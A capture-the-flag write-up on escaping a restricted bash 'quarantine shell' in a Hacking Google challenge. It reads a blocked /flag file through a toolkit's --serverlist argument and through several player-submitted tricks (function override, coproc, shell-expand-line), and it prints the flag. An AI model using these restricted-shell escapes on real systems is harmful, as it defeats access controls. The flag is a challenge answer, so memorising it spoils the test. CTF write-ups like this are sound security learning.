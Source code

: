 # Episode 2: Challenge 3

## Description

> Welcome to the shell. See if you can leave. socat FILE:`tty`,raw,echo=0 TCP:quarantine-shell.h4ck.ctfcompetition.com:1337
> 
> Hint: How can you ask the shell for which commands are available? 

## Solution

Let's connect to the server:

```console
┌──(user@kali)-[/media/sf_CTFs/h4ck1ng.google/EP002/Challenge_03]
└─$ socat FILE:`tty`,raw,echo=0 TCP:quarantine-shell.h4ck.ctfcompetition.com:1337
== proof-of-work: disabled ==
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell

   ___                                    _    _                ____   _            _  _
  / _ \  _   _   __ _  _ __  __ _  _ __  | |_ (_) _ __    ___  / ___| | |__    ___ | || |
 | | | || | | | / _` || `__|/ _` || `_ \ | __|| || `_ \  / _ \ \___ \ | `_ \  / _ \| || |
 | |_| || |_| || (_| || |  | (_| || | | || |_ | || | | ||  __/  ___) || | | ||  __/| || |
  \__\_\ \__,_| \__,_||_|   \__,_||_| |_| \__||_||_| |_| \___| |____/ |_| |_| \___||_||_|

The D&R team has detected some suspicious activity on your account and has quarantined you while they investigate
942 days stuck at ~
~ $ ls
command blocked: ls
check completions to see available commands
~ $ echo Test
command blocked: echo Test
check completions to see available commands
~ $ pwd
command blocked: pwd
check completions to see available commands
~ $
```

Looks like a restricted shell with many blocked commands. As suggested, we'll try the completions to see the available commands:

```console
check completions to see available commands
~ $
!                    enable               quarantine_protocol
.                    esac                 read
:                    eval                 readarray
[                    exec                 readonly
[[                   exit                 return
]]                   export               select
_dnr_toolkit         false                set
alias                fc                   shift
bg                   fg                   shopt
bind                 fi                   source
break                for                  suspend
builtin              function             test
caller               getopts              then
case                 hash                 time
cd                   help                 times
command              history              trap
compgen              if                   true
complete             in                   type
compopt              jobs                 typeset
continue             kill                 ulimit
coproc               let                  umask
declare              local                unalias
dirs                 logout               unset
disown               mapfile              until
do                   popd                 wait
done                 printf               while
echo                 pushd                {
elif                 pwd                  }
else                 quarantine
```

Well, actually, most of those were blocked as well:

```console
~ $ read
command blocked: read
check completions to see available commands
~ $
~ $ help
command blocked: help
check completions to see available commands
~ $ printf
command blocked: printf
check completions to see available commands
```

The only ones that weren't really blocked were:

```console
~ $ time
command blocked: false
check completions to see available commands

real    0m0.000s
user    0m0.000s
sys     0m0.000s
~ $ coproc
bash: syntax error near unexpected token `newline'
```

However, no matter what I tried, couldn't get them to do anything useful.

It was possible to locate the flag with tab completion, but nothing more.

```console
~ $ /
bin/                lib32/              root/
boot/               lib64/              run/
default_serverlist  libx32/             sbin/
dev/                login.sh            srv/
dnr_helpers.sh      media/              sys/
etc/                mnt/                tmp/
flag                opt/                usr/
home/               proc/               var/
lib/                quarantine.sh
```

At this point I got a hint from creator which allowed me to proceed. The hint was to look for something unusual in the command list, and try tab completions.

This leads us to:

```console
~ $ _dnr_toolkit
command blocked: _dnr_toolkit
check completions to see available commands
~ $ _dnr_toolkit
collectbrowserhistory  help                   quarantineuser
collectfiles           launchbinary           sendkeepalive
collectnetworkinfo     listprocesses
hashfile               osquery
```

Using tab completion, we can get suggestions for the command. The most useful one seemed to be:

```console
~ $ _dnr_toolkit sendkeepalive
reading serverlist from /default_serverlist
invalid server spec: testspec

email:dnr-notifications@domain.com  server:investigator-1-xyz
server:central-host-xyz             server:local-controller-xyz
```

Notice how it takes the server list from `/default_serverlist`, and (presumably) provides us with suggestions from within that file. 
What if we try to point it to `/flag` instead? After a few attempts, we find out that `--serverlist` is the argument used to point the program to a different server list.

```console
~ $ _dnr_toolkit sendkeepalive --serverlist /flag
reading serverlist from /flag
invalid server spec: https://h4ck1ng.google/solve/Y0U_c0mpL3T3_M3
```

Tab completion FTW!

## Unintended solutions

Some very creative unintended solutions were shared in the Discord channel. Here are a few:

### Override command via `function` (credit: 44670 / LolzCat)

```console
~ $ function echo() {  /bin/cat /flag; }
~ $ echo
https://h4ck1ng.google/solve/Y0U_c0mpL3T3_M3
https://h4ck1ng.google/solve/Y0U_c0mpL3T3_M3
```

### Use `coproc` (credit: Beavis)

```console
~ $ coproc $(</flag) { x; }
bash: `https://h4ck1ng.google/solve/Y0U_c0mpL3T3_M3': not a valid identifier
```

### shell-expand-line (credit: c4r50nz / pbnjay)

Type ` $(</flag)` and then execute `<esc> CTRL-E`, which will replace the command with the contents of the flag.